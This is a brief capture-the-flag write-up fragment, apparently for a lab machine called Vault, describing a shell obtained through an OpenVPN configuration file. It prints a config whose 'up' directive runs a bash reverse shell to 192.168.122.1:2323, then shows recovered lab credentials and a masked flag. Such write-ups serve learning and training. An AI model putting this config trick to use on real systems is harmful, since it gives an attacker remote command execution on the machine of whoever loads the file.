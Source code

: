 <img src="/assets/images/vault_vpn.jpg" style="width:30%">

This [medium article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) defines well what it is and how it's possible to pop a shell out of an OpenVPN config file, so I wont go in details.

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```

```
cat ssh
dave
dav3gerous567


cat user*
a4***************************3
```

> At this point you could have change the root password and connect with ssh using these credentials and found alex's `.bash_history` where you would have seen that he was pinging the `192.168.5.2` IP adress. But no chance, this adress was no longuer reachable. 
